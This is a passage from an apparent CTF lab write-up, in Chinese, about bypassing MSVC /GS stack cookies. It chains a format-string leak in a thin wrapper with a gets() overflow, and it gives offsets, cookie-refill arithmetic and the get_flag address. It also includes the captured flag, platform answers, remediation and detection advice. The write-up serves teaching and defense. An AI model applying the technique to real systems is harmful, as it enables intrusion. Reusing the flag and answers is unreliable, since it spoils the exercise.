`num` 取**所选答案个数**（单选 1、多选选 n 个填 n、填空固定 3，flag 放第 3 格）。响应里 5 条记录 `answerTimes` 均为 **1**（确为首次、也是唯一一次提交），填空题的 `answer` 被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位补 `true`，第 3 格 flag 原样保留）。两处属平台正常现象、不代表判错：顶层 `isCorrect:false`、各条 `scoreRate:0`。

判分以 `GET /api/student/get/answerHistory?sectionID=6699&contestMode=0` 为准：

| order | questionID | 题型 | isCorrect |
| --- | --- | --- | --- |
| 1 | 9035 | 单选 | true |
| 2 | 9037 | 单选 | true |
| 3 | 9039 | 单选 | true |
| 4 | 9041 | 多选 | true |
| 5 | 9049 | Flag 填空 | true |

**5/5 全部 `isCorrect=true`。** 平台作答页同样 5 题都显示「作答正确」，选择题所选选项高亮，第 5 题 flag 输入框内为最终 flag。

实例与端口映射在「我的虚拟机」页面核对：`C031-G4-F` 卡片显示实例 `s-149899`、镜像 `t-11637/c031-g4-f:2026`、`running`、过期时间 `2026-10-16 18:33:19`；hover 该卡片的 `+2` 端口映射按钮后弹层显示 `22 → 172.17.0.13:14644`、`80 → 172.17.0.13:14645`。（截图 07 里该弹层是从按钮**上方**展开的，视觉上压在 `C031-G3-F` 卡片区域，容易误读成 G3 的映射；按 `portInfos` 接口与卡片绿框确认，这组端口属于 **G4**。）




### 9. 失败尝试与踩坑清单

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | 把 cookie jar 里的 `SESSIONID` 直接注入无头浏览器 | 被重定向到 `/login` | 该 SPA 的登录态不是只靠 `SESSIONID` 就能在浏览器里生效（本次实测如此） | 改为在浏览器里走真实登录表单 |
| 2 | `page.fill('input[name=username]')` | 选择器超时 | VMC 登录框是 Element Plus，只有 `placeholder`（`请输入用户名`/`请输入密码`），没有 `name` 属性 | 改用 `input[placeholder="请输入用户名"]` + `click('button:has-text("登录")')` |
| 3 | 实例页直接 `fullPage` 截图 | 只拍到 DVWA / G2 / G3，没拍到 G4 | 页面为多张环境卡片，列表头在滚动容器里，`fullPage` 不足 | 改为 `scrollIntoView` + 视口截图 |
| 4 | 点击端口映射 `+2` | tooltip 不展开 | `+2` 是 `button.el-tooltip__trigger`，**hover** 才出 popper，click 无效 | 改 `locator.hover()`，拿到 `14644` / `14645` |
| 5 | 用原生 `el.click()` 点问答历史条目 | 面板无变化、会话指纹 0/4 | 原生 `click()` 未触发该组件绑定的事件 | 改用 Playwright 真实点击 `locator(...).click()`，并用 `#hist-list .hist-item[data-id="5615"]` 精确选中 |
| 6 | 打开问答平台 `/chat` 直接截图 | 落地页显示的是**别的会话**（6-2 关于"第 81 个 `%p`"的那次） | 多 Agent 共用账号，落地页展示"最新会话" | 截图前必须做会话指纹校验：`data-id=5615` 唯一命中 + `#log` 文本 4 个指纹全中才截图 |
| 7 | 渲染稿第一次出图 | HTML 标签被当成纯文本显示 | `pre()` 里对整段做了 `html.escape()`，把标注用的 `<span>` 也转义了 | 改为「受控拼装 HTML + 只对日志文本 `html.escape()`」 |
| 8 | 渲染脚本执行时报 `ValueError: unsupported format character 'p'` | 渲染中断 | 日志文本里的 `%p` 与 Python `%` 格式化冲突 | 改用占位符 + `.replace()` 拼装 |
| 9 | 失败对照在 socket 上"无输出、连接不关" | 无法区分"被 `/GS` 拦住"与"正常退出" | `__report_gsfailure` 走 `__fastfail` 直接终止进程；外层服务不主动关连接 | 记录 `close_reason`（`eof`/`timeout`/`reset`），并用"返回地址已正确放置但无 token"（对照③）区分 |

### 10. 教学问答：跨帧幻影参数、Cookie 回填、加固与检测（截图 09、10）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 5 个问题（**同一会话 `conversation_id = 5615`**，共 10 条消息，提问间隔均 ≥ 10 s；5 次全部一次成功、无排队失败）。问答原文另存 `.local/process/6-4-qa-transcript.json`。**教学模型的输出只作思路参考：本题 5 问里有 4 问存在明确错误或漏项，下表如实标注。**

| # | 问题主题 | 覆盖维度 | 回答要点与准确性核对 |
| --- | --- | --- | --- |
| Q1 | MSVC `/GS` 决定是否为某函数插 Cookie 的判据？薄包装为何通常不插？ | 漏洞原理 | **结论与实证相反**：模型称"判据是函数内是否含 `printf`/`strcpy` 等危险调用"，并断言本题 `wrapper` **会**被插 Cookie。实测 `0x401020` 只有 8 条指令、**没有任何 `/GS` 指令**（步骤 2）：MSVC 的判据是"函数内是否存在受保护的局部对象（局部数组/缓冲区）"，`printf(fmt)` 属格式串漏洞、不是缓冲区溢出 |
| Q2 | `[EBP_B+0]` 为何是 `EBP_A`？薄包装无 Cookie 时父帧 EBP 为何出现在幻影参数序列里？ | 机制细节 | **第一步表述错误**：称 `call B` 会"把 `EBP_A` 压栈"，实际 `call` 压入的是**返回地址**，`EBP_A` 是 `B()` 自己的 `push ebp` 压的。后半问（薄包装无 Cookie ⇒ 父帧 EBP 成为 `printf` 第 1 个幻影参数）**未回答**，本机用靶机实测补齐（步骤 4） |
| Q3 | 已知 `Buffer` 地址与全局 Cookie，如何推 `stored = Cookie XOR EBP`？该设计意图与失效原因？ | 利用推导 | 公式部分**正确**（`EBP = Buffer + 0x144`、`stored = 全局 Cookie XOR EBP`）；"失效原因"三条**全部跑偏**（说攻击者能控制 EBP、能篡改全局 Cookie）。真实原因：泄漏缓冲区地址等价于泄漏 EBP，而随机化的全局 Cookie 又被直接打印，`stored` 可被精确重算 ⇒ `/GS` 的随机化被完全抵消 |
| Q4 | 源码 + 编译 + 运行时应如何加固"薄包装格式串 + `gets`"组合风险？ | 加固修复 | 给了 `gets→fgets`、`/GS`、`/DYNAMICBASE`、DEP 等通用清单；**漏掉本题最关键的一条**：`printf(s)` 必须改成 `printf("%s", s)`；也未提 `/guard:cf`、`/sdl`、`gets_s` |
| Q5 | 如何从主机日志/事件与网络流量检测排查 `/GS` 绕过与格式串利用？ | 检测应急 | 事件查看器、异常退出码、WER、IDS/IPS、Wireshark 等方向正确；**部分不准确**：`dumpstack` 并非 Windows 常用排查工具、DNS 请求特征与本题漏洞无关、未给出 WER 实际落盘路径与事件 ID |

> 口径说明：以上"准确性核对"是解题方依据反汇编与靶机实测给出的判读（以实测为准，写入记录以保持对教学模型输出的如实评价）；**Q1/Q2/Q3 的结论均不作为本题依据，Q4 的加固清单已按步骤"修复建议"补齐，Q5 只保留方向正确的部分。**

会话与截图真实性：截图前先用 `/api/chat/history?conversation_id=5615` 取回原文并提取 4 个指纹（`MSVC 的 /GS 栈保护在决定是否为某个函数插入安全 C`、`FAST_FAIL_STACK_COOKIE_CHECK_FAILURE`、`EBP_B+0`、以及含 `printf(s)` 的 Q4 提问片段），再要求 DOM 上 `#hist-list .hist-item[data-id="5615"]` **唯一命中**（实测 1 条，条目文本 `MSVC 的 /GS 栈保护在决定是否为某个函数插入安全 Cookie … 10-16 15:47 · 10 条`）、点击后 `#log` 文本 **4/4 指纹全部命中**、`.hist-item.active` 即该条目，才截图（`conv 5615 items 10 users 5`）。




### 11. 截图真实性与脱敏说明

`6-4/screenshots/` 共 **11 张 PNG，无其他文件**（渲染源 HTML 放在 `.local/process/6-4-scripts/render/`，不入库）。按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 | 脱敏 |
| --- | --- | --- | --- |
| `01` | 靶机 banner 两处泄漏 + 阶段 1 交互 + 薄包装 1 个 / 4 个 `%p` 幻影参数实测 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） | 无个人信息 |
| `02` | 基线 + 三条失败对照的载荷 / EBP / stored / 回显 / 连接结束方式与汇总表 | 同上 | 无 |
| `03` | `md5`、PE 头（`DllCharacteristics` / `SecurityCookie` / 唯一导出）、wrapper / main / `__security_check_cookie` 反汇编 | 同上 | 无 |
| `04` | 正式利用会话与靶机原始 token 回显 | 同上 | 无 |
| `05` | `curl -i ".../flag?token=…"` → `HTTP/1.1 200 OK` + flag | 同上 | 无 |
| `05b` | token 重放 / 坏格式 / 缺参 / 签名长度 四条对照 | 同上 | 无 |
| `06` | VMC 作答页：5 题「作答正确」+ 已填 flag | **真实页面截图**（无头 Chrome + `playwright-core` 驱动系统 Chrome，登录态） | 顶栏昵称涂白（见下） |
| `07` | VMC「我的虚拟机」：`C031-G4-F` 卡片 + 端口映射 tooltip | **真实页面截图** | 顶栏昵称涂白（见下） |
| `08` | `submitAnswers` 与 `get/answerHistory` 的 curl 原始响应（5 题 `isCorrect:true`） | **真实命令回显的渲染稿**（非终端实拍） | 渲染前**整段删除** `currentUser`（含昵称、姓名、学号、`lastIP`） |
| `09` | 教学问答 `/chat`：左侧历史高亮会话 5615 + 主区域 Q1 | **真实页面截图** | 账号胶囊涂白（见下） |
| `10` | 同一会话滚到底部（Q5 与回答） | **真实页面截图** | 账号胶囊涂白（见下） |

**为什么终端/HTTP 类是渲染稿**：pwn 靶机 `172.17.81.169:9999` 是**裸 TCP 服务、不是 HTTP**，无法像网页那样实拍；本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`）。因此 `01`–`05b` 与 `08` 把**真实命令行 + 原始日志输出逐字复制**渲染成黑底白字 HTML 再截图，**每张图顶部都标注「真实命令回显的渲染稿（非终端实拍）」**，未冒充终端实拍；每张图的字符内容均来自 `logs/` 下的原始输出，未手工改写。

**脱敏范围（逐图实测坐标，未照抄其它批次）**：

| 图 | 目标矩形（device px） | 填充背景色 | 判据 / 脚本 |
| --- | --- | --- | --- |
| `06`（VMC 顶栏昵称） | `(2432, 55) - (2514, 114)`（实测昵称白簇 `x=2440–2506, y=69–100`，w=67） | `rgb(114,177,239)`（实测顶栏底色） | ink 计数 **1263 → 656**；脚本 `.local/process/6-4-scripts/mask_vmc_header_64.py` |
| `07`（VMC 顶栏昵称） | `(2312, 55) - (2394, 114)`（实测昵称白簇 `x=2320–2386, y=69–100`，w=67） | `rgb(114,177,239)` | ink 计数 **1263 → 656**；同一脚本 |
| `09`、`10`（问答页右上账号胶囊） | `(1812, 49) - (2145, 101)` | `rgb(255,252,247)`（实测 header 底色） | ink 计数 **3624 → 1343**；脚本 `.local/process/6-4-scripts/mask_qa_account_64.py` |

- 定位方法：VMC 顶栏（截图参数 viewport 1280、`deviceScaleFactor=2`、`fullPage`，故 `06` 为 `2560×4800`、`07` 为 `2560×1600`）在 `y∈[40,140]`、`x>0.80W` 内取与顶栏底色差异明显的白色像素列簇（RGB 均 >235），取**最右**、宽 20–140 px 的簇为昵称；`06` 白簇为 `[(2103,2162),(2213,2254),(2293,2334),(2362,2395),(2440,2506)]`，`07` 为 `[(2093,2134),(2173,2214),(2242,2275),(2320,2386)]`——**两图昵称 x 坐标相差 120 px（作答页顶栏多一个图标簇），因此必须逐图实测、不能共用同一个框**。
- 问答页胶囊：先在浏览器内实测 CSS 盒 `.who span` = `x=910.046875, y=25, w=169.546875, h=26.484375` ⇒ device px `(1820,50)-(2159,102)`；再用像素聚类独立复核 ink 列簇 `[(1822,2135,59,91),(2184,2503,28,123)]`——左簇（账号名与其后括号内的身份标识，中间 25 px 间隙被合并）即账号胶囊，右簇是「帮助」「退出」按钮，与 CSS 盒交集验证通过。涂白后裁剪放大 2 倍目视复核：胶囊已覆盖，「帮助」「退出」完好。
- 脚本只重绘上述矩形、不动页面其余内容，可追溯、可回退（重新运行 `vmc_login_shots_64.mjs` / `vmc_instance_shot3_64.mjs` / `qa_shots2_64.mjs` 从平台重截即可）。
- 昵称行内还有一个数值型通知角标与站点图标，**不含个人信息**，未处理；`08` 属渲染稿，`currentUser` 段落已在渲染前整段删除，因此图中不含任何个人信息。

### 12. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| Pwn 靶机 `172.17.81.169:9999` | **无文件落地** | 全部交互都是通过 socket 发送两段输入触发 `get_flag()`；溢出/`__report_gsfailure` 只导致该次进程终止，未上传文件、未写磁盘、无持久化改动 |
| 一次性 token | 共取得 **1 枚**并已用于兑换（兑换后立即失效），另有一次重放对照返回 403 `token already used` | 靶机侧与兑换服务侧均无残留有效凭证 |
| 平台实例 `C031-G4-F`（podID `rid73s7l6enlpvoo5mwj4804w`） | 本次**未创建、未销毁** | 为任务书给定的既有实例，截图时 `state=Running`、过期时间 2026-10-16 18:33:19；如需善后可在平台停止该实例 |
| 本机 | `6-4/screenshots/`（11 张 PNG，无其它文件）、`.local/process/6-4-scripts/`（脚本 + `logs/` + `render/` + `shots/`）、`.local/process/6-4-{ctf-process.md,qa-transcript.json,answers-rationale.md}` | 均在 `.local/`（`.gitignore` 忽略）内，不入库 |

## Flag

```text
vmc{zOpBlfLF80SJlq9QyR8TtpiFyn0nC9Rv}
```

该 flag 由唯一一枚一次性 token 兑换所得（`HTTP/1.1 200`，`Content-Length: 38` = 37 字符 flag + 结尾换行），与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 9049）判定为正确的提交值三者逐字一致。

## 总结与心得

### 漏洞原理

1. **根因是「无界读入 + 可控返回地址」**：`main` 用 `0x40651e`（`gets` 语义）往 `[EBP-0x144]` 的 324 字节栈缓冲区写数据，长度完全由客户端决定（CWE-121）。前半段的 `fgets(buf2, 0x40)` 是**有界**的，真正的溢出点在最后那次 `gets(buf1)`。
2. **`/GS` 的真实机制与本题的例外**：程序启动时随机化全局 `__security_cookie`（`[0x41d040]`，文件初值只是占位）；每个**受保护**函数的 prologue 把它与本帧 EBP 异或后存入 `[EBP-4]`，epilogue 在 `ret` 之前取回、再异或 EBP 还原，并 `call 0x4011aa __security_check_cookie` 与全局值比较；不等则跳 `0x401434 __report_gsfailure` 终止进程，**根本走不到 `ret`**（失败对照①）。而本题的薄包装 `0x401020` **没有任何受保护的局部对象**，编译器不为它插 Cookie——它连 `sub esp` 都没有，只有 8 条指令。
3. **薄包装 + 格式串 = 跨帧泄漏**：`printf(fmt)` 的"幻影参数"取自调用方帧中格式串指针之后的栈槽；薄包装帧里没插 Cookie，`[EBP_child+0]` 就是 `push ebp` 保存的**父帧 EBP**。于是阶段 1 只要回一个 `%p`，`main` 的 EBP（`0019FF28`）当场泄漏；4 个 `%p` 还能一并读出**返回地址** `004010F5`、`&buf2` `0019FEE4` 与更上层栈槽（CWE-134 + 跨帧信息泄漏）。这条链说明"`printf(s)` 只是打印、不算溢出，所以不受 `/GS` 保护"是危险的认识：**它把本帧之外的栈内容交到了攻击者手里**。
4. **两个前提同时被打掉，`/GS` 就只是一道代数题**：`Buffer @ %p` 泄漏缓冲区地址（等价泄漏 EBP），`Cookie : %08X` 直接打印全局 Cookie，于是 `EBP = buf1 + 0x144`、`stored = 全局 Cookie ^ EBP` 都可精确计算。`/GS` 依赖的"Cookie 不可预测 + 本帧 EBP 不可知"在这里被同时抵消，回填（refill）后校验必然通过（失败对照③证明控制流确实走到了 `ret`）。
5. **"拿到凭证"与"拿到 flag"是两段权限**：靶机进程只输出一次性 token（10 分钟、单次可用、`<时间戳>.<base64url>`），flag 由另一个容器上的兑换服务在校验**格式、签名长度与一次性使用状态**后才给出；`get_flag()` 命中后立即 `ExitProcess(0)`，进程生命周期极短。分层设计让"控制靶机进程"不等于"直接读 flag"，且每次利用都会在服务端留下使用记录。

### 做题方法

- **先分清"哪一段有界、哪一段无界"**：本题两段交互很容易看反——阶段 1 的 `fgets(buf2, 0x40)` 有界，是用来喂格式串的；阶段 2 的 `gets(buf1)` 才是溢出点。把 `objdump` 的两条 `call`（`0x404415` fgets / `0x40651e` gets）连同参数一起读，就不会搞错。
- **用帧算术把幻影参数钉死，而不是靠"看起来像"**：`EBP_printf = EBP_wrapper - 0xc`，`va_list = [EBP_printf+0xc] = [EBP_wrapper+0] = EBP_main`。本机用 1 个 `%p` 与 4 个 `%p` 两次实测交叉验证，得到 `0019FF28`（= `buf1+0x144`，逐字相等）与 `004010F5`（= `0x4010F0+5`，`call` 的下一条指令），顺序与 `push ebp` 的压栈顺序严格一致。
- **把保护机制的公式反着用**：prologue 做 `[EBP-4] = 全局 Cookie ^ EBP`，payload 里就放 `全局 Cookie ^ EBP`；逆运算的两个输入恰好都在 banner 里。**"看到泄漏就先想清楚它能反推什么"** 是这一类题的核心动作。
- **用对照实验把因果钉住，并区分"防护拦住"与"利用失败"**：不回填 Cookie（`/GS` 拦截）→ 偏移 324 放返回地址（`/GS` 通过但 `ret` 到空地址）→ 目标换 `0xdeadbeef`（`/GS` 通过、走到 `ret`、目标非法）→ 四段齐全（拿到 token）。有了第 3 条，"劫持成功"与"校验已过"才是同一个证据链上的事。
- **注意载荷的字节安全性**：Cookie 每次连接随机，`stored` 的 4 个字节里若出现 `0x00` / `0x0a`，`gets()` 会截断载荷或提前结束。脚本内置"换连接重试 + 记录 `attempts`"是廉价而必要的工程处理。
- **没有 pwntools 也能完整验证**：Python 标准库 `socket` + `struct.pack("<I", …)` 足以收发两段载荷、用正则从 banner 抓两个十六进制数并当场算出回填值。
- **平台提交有两个格式约束**：`answers` 字段必须外层包 `{"questionID":…,"answer":"<内层 JSON>"}`；`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3，flag 放第 3 格）；判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate` / `isCorrect` 不是判分依据。
- **对教学模型的回答保持复核**：本题 5 问里 4 问有明确错误或漏项（把 `/GS` 判据说成"看是否调用危险函数"、把 `call` 说成"压入 EBP"、把 Cookie 失效原因说成"攻击者能控制 EBP"、漏掉 `printf("%s", s)`），其中 Q1 的错答恰好是本题的题眼（薄包装会不会被插 Cookie）。教学问答适合梳理思路，**结论必须回到反汇编与靶机实测上验证**。
- **截图取证要留痕**：终端/HTTP 类用"真实回显的渲染稿"并显式标注（裸 TCP 靶机无法实拍），网页类用无头浏览器实拍并做会话指纹校验；脱敏坐标逐图实测（本题作答页与实例页的昵称 x 坐标相差 120 px），脚本可回溯、可重跑。

### 修复建议

- **代码级：去掉无界读取**。把 `gets(buf1)` 换成带长度上限的实现（`fgets(buf1, sizeof buf1, stdin)` 或 `gets_s`），并排查所有把外部数据写进定长栈缓冲区的路径（`strcpy`/`sprintf`/`memcpy` 同样要算长度）。
- **代码级（本题真正的要害）：格式串必须是常量**。`printf(s)` 一律改为 `printf("%s", s)`（或 `fputs(s, stdout)`）；这就是 9039 / 9041-D 那条链路的根因——**只要外部数据能当格式串，`%p`/`%s` 就能把调用方帧的内容读出来，跟被调函数是否有局部缓冲区、是否受 `/GS` 保护无关**。
- **代码级：不要向客户端泄漏调试信息**。`Buffer @ %p` 与 `Cookie : %08X` 直接摧毁了 `/GS` 的两个前提；同理，任何打印栈/堆地址、模块基址、Cookie/canary、指针值的调试输出，都应在发布版本中移除或改成不敏感日志（服务端、经鉴权、不含原始值）。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——本题**已开**，但被信息泄漏绕过；说明加固要成套，单靠一项不够；
  - `/DYNAMICBASE`（ASLR）+ `/HIGHENTROPYVA`——本题**没开**（`DllCharacteristics` 无 `0x40`），实测每次连接 `buf1` 恒为 `0x0019FDE4`，补上后静态地址不再可用；
  - `/NXCOMPAT`（DEP）——本题**没开**（无 `0x100`），补上后"注入 shellcode 再跳"被堵死；
  - `/guard:cf`（CFG，控制流完整性）、`/sdl`、`/SAFESEH`——约束间接跳转与异常处理链，提高"覆盖返回地址/函数指针"的难度。
- **不要把敏感能力做成"易达目标"**：`get_flag` 是导出函数、地址可直接写死（`0x401000`），命中即可打印一次性凭证。凭证下发应校验调用来源与身份，敏感逻辑应放在独立进程/服务端并做权限校验，而不是仅靠一个可被跳转的本地函数。
- **把"拿不到 flag"当作最后一道边界**：本题兑换服务做了格式校验、签名长度校验、10 分钟有效期与一次性使用记账，是值得借鉴的设计——高价值资产与暴露面分层，凭据短期化、单次化，并在服务端记录使用情况以便事后审计。
- **检测与应急排查要点**（对应教学问答 Q5，只保留方向正确的部分并补齐）：服务进程异常退出且异常码为 `0xC0000005`（访问违例）或快速失败 `0xC0000409`（`FAST_FAIL_STACK_COOKIE_CHECK_FAILURE`，由 `__report_gsfailure` 的 `__fastfail` 触发）、Windows 事件日志中应用崩溃事件（Application Error / WER，事件 ID 1000/1001，转储默认落在 `%LOCALAPPDATA%\CrashDumps`、报告在 `%PROGRAMDATA%\Microsoft\Windows\WER\`）、崩溃转储中返回地址指向进程内**未被正常调用**的函数（如本题的 `get_flag`）、短时间内出现大量"banner 泄漏 + 两段式输入"的连接、进程存活时间被压到秒级，都是此类控制流劫持的典型痕迹。处置上应保留转储与进程内存镜像、用 WinDbg 做栈回溯、核对 EDR 遥测中的线程起始地址与调用栈；修复则回到「有界读取 + `printf("%s", s)` + 移除信息泄漏 + `/GS` + `/DYNAMICBASE` + `/NXCOMPAT`/`/guard:cf` + 最小权限」这条主线。

原始过程记录：`.local/process/6-4-ctf-process.md`；教学问答原文：`.local/process/6-4-qa-transcript.json`；选择题判定依据：`.local/process/6-4-answers-rationale.md`；复现脚本与全部证据日志：`.local/process/6-4-scripts/`（`exploit.py`：`probe` / `phantom` / `attack ok` 三个正常用例 + `attack short|nocookie|off324|badret` 四条失败对照、`pe_info.py`、`render/` 渲染源、`logs/` 原始输出与问答 SSE）。
